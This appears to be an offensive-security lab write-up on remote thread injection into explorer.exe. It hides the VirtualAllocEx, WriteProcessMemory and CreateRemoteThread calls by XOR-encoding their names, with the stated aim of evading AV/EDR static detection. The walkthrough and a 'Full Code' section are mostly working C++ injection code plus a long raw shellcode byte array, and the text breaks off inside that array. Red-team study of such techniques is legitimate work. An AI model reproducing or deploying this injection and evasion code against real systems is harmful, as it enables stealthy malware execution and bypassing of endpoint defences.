


<h1 align="center">Classic Code Injection With APIs Obfuscation</h1>
<p align="center">
  
</p>

## Overview
In this lab, we will explore the remote thread injection technique with APIs obfuscation. To evade static detection mechanisms used by AV/EDR solutions, we will implement API call obfuscation throughout the process. By the end of this lab, we'll demonstrate the difference in the import table of a sample program both before and after API obfuscation, highlighting how these changes can help to bypass static analysis.

## Steps
1. `Identify the Target Process:` `Toolhelp32` functions to enumerate running processes and identify the target process by its name.
2. `Obtain a Handle to the Target Process:` `OpenProcess` function to get a handle with necessary access rights (PROCESS_ALL_ACCESS).
3. `Allocate Memory in the Target Process:` `VirtualAllocEx` function to allocate `RWX` memory in the target process's address space.
4. `Write Shellcode to the Allocated Memory:` `WriteProcessMemory` to write the shellcode into the allocated memory.
5. `Create a Remote Thread to Execute the Shellcode:` `CreateRemoteThread` function to create a new thread in the target process that starts at the address of the our shellcode.

## Walkthrough
These headers are necessary to use the Windows API functions for process enumeration, memory manipulation, and thread creation.
```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
```
These are function pointer typedefs for some Windows API functions:
	* VAExType: A typedef for VirtualAllocEx, which allocates memory in the address space of a specified process.
	* WPMType: A typedef for WriteProcessMemory, which writes data to an area of memory in a specified process.
	* CRTType: A typedef for CreateRemoteThread, which creates a thread that runs in the virtual address space of another process.
```cpp
typedef LPVOID(WINAPI* VAExType)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef BOOL(WINAPI* WPMType)(HANDLE  hProcess, LPVOID  lpBaseAddress, LPCVOID lpBuffer, SIZE_T  nSize, SIZE_T* lpNumberOfBytesWritten);
typedef HANDLE(WINAPI* CRTType)(HANDLE hProcess, LPSECURITY_ATTRIBUTES  lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, DWORD lpThreadId);
```
This function applies a simple XOR encoding/decoding to the input data using a key.
	* data: Pointer to the data that needs to be decoded.
	* data_len: Length of the data.
	* key: Key used for XOR operations.
	* key_len: Length of the key.
```cpp
void XOR(unsigned char* data, size_t data_len, const char* key, size_t key_len) {
	int j = 0;
	for (size_t i = 0; i < data_len; i++) {
		if (j == key_len) j = 0;
		data[i] = data[i] ^ key[j];
		j++;
	}
}
```
The function first copies the encoded data to a new buffer decoded, XORs it using the given key, and then returns the decoded string.
```cpp
LPCSTR DAndP(unsigned char* encoded, size_t len, const char* key, size_t key_len) {
	char* decoded = new char[len + 1];
	memcpy(decoded, encoded, len);
	XOR(reinterpret_cast<unsigned char*>(decoded), len, key, key_len);
	decoded[len] = '\0';
	return decoded;
	
}
```
This line loads the kernel32.dll library into the process's address space. This library contains many essential functions like VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread.
```cpp
library = GetModuleHandle(L"kernel32.dll");
```
These arrays contain obfuscated byte with key `offensivepanda` representations of the API function names. Each array represents a different function:
	* sVAEx for VirtualAllocEx
	* sWPM for WriteProcessMemory
	* sCRT for CreateRemoteThread
```cpp
unsigned char sVAEx[] = { 0x39, 0x0f, 0x14, 0x11, 0x1b, 0x12, 0x05, 0x37, 0x09, 0x1c, 0x0e, 0x0d, 0x21, 0x19 };
unsigned char sWPM[] = { 0x38, 0x14, 0x0f, 0x11, 0x0b, 0x23, 0x1b, 0x19, 0x06, 0x15, 0x12, 0x1d, 0x29, 0x04, 0x02, 0x09, 0x14, 0x1c };
unsigned char sCRT[] = { 0x2c, 0x14, 0x03, 0x04, 0x1a, 0x16, 0x3b, 0x13, 0x08, 0x1f, 0x15, 0x0b, 0x30, 0x09, 0x1d, 0x03, 0x07, 0x01 };
```
Once the function names are decrypted, GetProcAddress is used to get the addresses of the functions from the loaded module kernel32.dll. The addresses are then cast to the appropriate function pointer types (VAExType, WPMType, CRTType).
```cpp
pVAEx = (VAExType)GetProcAddress(library, (LPCSTR)A);
pWPM = (WPMType)GetProcAddress(library, (LPCSTR)B);
pCRT = (CRTType)GetProcAddress(library, (LPCSTR)C);
```
This function, `GetProcessHandleByName`, takes the target process's name (e.g., L"explorer.exe") and returns its handle by enumerating through all running processes.
```cpp
HANDLE GetProcessHandleByName(const std::wstring& processName) {
	HANDLE hProcess = nullptr;
	PROCESSENTRY32W pe32;
	pe32.dwSize = sizeof(PROCESSENTRY32W);

	auto snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (snapshot == INVALID_HANDLE_VALUE) return nullptr;

	if (Process32FirstW(snapshot, &pe32)) {
		do {
			if (processName == pe32.szExeFile) {
				hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
				break;
			}
		} while (Process32NextW(snapshot, &pe32));
	}

	CloseHandle(snapshot);
	return hProcess;
}
```
`VirtualAllocEx` is used to allocate a block of memory in the virtual address space of the target process (explorer.exe). The memory is allocated with `PAGE_READWRITE` permissions to allow the shellcode to be written.
```cpp
// Allocate a memory buffer for payload with permission RWX
my_sc_mem = pVAEx(hProcess, 0, sc_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
`WriteProcessMemory` writes our shellcode into the allocated memory in the target process.
```cpp
// copy payload to allocated buffer using WriteProcessMemory()
pWPM(hProcess, my_sc_mem, sc, sc_len, NULL);
```
`CreateRemoteThread` creates a new thread in the target process. The thread starts executing at the address of the injected shellcode. The code then waits for the thread to complete using `WaitForSingleObject` and cleans up the handles.
```cpp
	// run shellcode
		hthread = pCRT(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)my_sc_mem, NULL, 0, NULL);
		if (hthread != NULL) {
			WaitForSingleObject(hthread, 500);
			CloseHandle(hthread);
		}
```

## Full Code
```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>


typedef LPVOID(WINAPI* VAExType)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef BOOL(WINAPI* WPMType)(HANDLE  hProcess, LPVOID  lpBaseAddress, LPCVOID lpBuffer, SIZE_T  nSize, SIZE_T* lpNumberOfBytesWritten);
typedef HANDLE(WINAPI* CRTType)(HANDLE hProcess, LPSECURITY_ATTRIBUTES  lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, DWORD lpThreadId);

void XOR(unsigned char* data, size_t data_len, const char* key, size_t key_len) {
	int j = 0;
	for (size_t i = 0; i < data_len; i++) {
		if (j == key_len) j = 0;
		data[i] = data[i] ^ key[j];
		j++;
	}
}
LPCSTR DAndP(unsigned char* encoded, size_t len, const char* key, size_t key_len) {
	char* decoded = new char[len + 1];
	memcpy(decoded, encoded, len);
	XOR(reinterpret_cast<unsigned char*>(decoded), len, key, key_len);
	decoded[len] = '\0';
	return decoded;
	
}

// Shellcode: Hello from offensive Panda
unsigned char sc[] = { 0x40, 0x55, 0x57, 0x48, 0x81, 0xEC, 0xB8, 0x03,
	0x00, 0x00, 0x48, 0x8D, 0x6C, 0x24, 0x60, 0x65, 0x48, 0x8B, 0x04, 0x25,
	0x60, 0x00, 0x00, 0x00, 0x48, 0x89, 0x45, 0x00, 0x48, 0x8B, 0x45, 0x00,
	0x48, 0x8B, 0x40, 0x18, 0x48, 0x89, 0x45, 0x08, 0x48, 0x8B, 0x45, 0x08,
	0xC6, 0x40, 0x48, 0x00, 0x48, 0x8B, 0x45, 0x00, 0x48, 0x8B, 0x40, 0x18,
	0x48, 0x83, 0xC0, 0x20, 0x48, 0x89, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x89, 0x85,
	0x38, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6B, 0x00, 0x65, 0x00, 0x72, 0x00,
	0x6E, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x00, 0x6C, 0x00,
	0x33, 0x00, 0x32, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x2E, 0x00,
	0x64, 0x00, 0x6C, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7,
	0x45, 0x50, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x50, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85,
	0x58, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x60, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38,
	0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x64,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0,
	0x02, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40,
	0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x85, 0x68, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D,
	0x6C, 0x01, 0x00, 0x00, 0x3B, 0xC1, 0x0F, 0x84, 0xB5, 0xFE, 0xFF, 0xFF,
	0x83, 0xBD, 0x60, 0x01, 0x00, 0x00, 0x00, 0x0F, 0x84, 0x2E, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x02,
	0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x48, 0x83, 0xE8, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68,
	0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F,
	0xB6, 0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00,
	0x66, 0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68,
	0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6,
	0x00, 0x88, 0x85, 0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89,
	0x85, 0x6C, 0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB,
	0x0D, 0x0F, 0xB6, 0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01,
	0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89,
	0x85, 0x6C, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x8D, 0x6C, 0x01, 0x00, 0x00, 0x2B, 0xC1, 0x89, 0x85, 0x60,
	0x01, 0x00, 0x00, 0x83, 0xBD, 0x60, 0x01, 0x00, 0x00, 0x00, 0x75, 0x10,
	0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0x50, 0x01,
	0x00, 0x00, 0xEB, 0x25, 0x48, 0x8B, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x30, 0x01, 0x00, 0x00, 0x48, 0x39, 0x85, 0x38, 0x01, 0x00, 0x00, 0x0F,
	0x85, 0xF9, 0xFC, 0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x50, 0x01, 0x00, 0x00,
	0x48, 0x89, 0x85, 0x70, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E, 0x00, 0x74,
	0x00, 0x64, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x6C,
	0x00, 0x2E, 0x00, 0x64, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48,
	0xC7, 0x45, 0x48, 0x6C, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x45, 0x50, 0x00,
	0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x78, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00,
	0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x38, 0x01,
	0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85, 0x80, 0x01, 0x00,
	0x00, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40, 0x60, 0x48, 0x89,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38, 0x48, 0x89, 0x85,
	0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x01, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00,
	0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20, 0x88, 0x85, 0x8D,
	0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C, 0x01, 0x00, 0x00,
	0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85, 0x8D, 0x01,
	0x00, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D,
	0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00,
	0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01, 0x00, 0x00, 0xEB,
	0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C,
	0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F,
	0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20, 0x88,
	0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C, 0x01,
	0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85,
	0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00,
	0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x85, 0x90, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D, 0x94, 0x01, 0x00,
	0x00, 0x3B, 0xC1, 0x0F, 0x84, 0xB5, 0xFE, 0xFF, 0xFF, 0x83, 0xBD, 0x88,
	0x01, 0x00, 0x00, 0x00, 0x0F, 0x84, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x02, 0x48, 0x89, 0x85,
	0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x48,
	0x83, 0xE8, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x8C, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x8C, 0x01, 0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x85, 0x90, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D,
	0x94, 0x01, 0x00, 0x00, 0x2B, 0xC1, 0x89, 0x85, 0x88, 0x01, 0x00, 0x00,
	0x83, 0xBD, 0x88, 0x01, 0x00, 0x00, 0x00, 0x75, 0x10, 0x48, 0x8B, 0x85,
	0x80, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0x78, 0x01, 0x00, 0x00, 0xEB,
	0x25, 0x48, 0x8B, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48,
	0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00,
	0x00, 0x48, 0x39, 0x85, 0x38, 0x01, 0x00, 0x00, 0x0F, 0x85, 0xF9, 0xFC,
	0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x50, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x30, 0x48, 0x89, 0x85, 0x98, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x98,
	0x01, 0x00, 0x00, 0x48, 0x63, 0x40, 0x3C, 0x48, 0x8B, 0x8D, 0x98, 0x01,
	0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xA0,
	0x01, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x01, 0x00, 0x00, 0x8B, 0x84, 0x01, 0x88, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8,
	0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xA8, 0x01, 0x00, 0x00, 0x48, 0x8B,
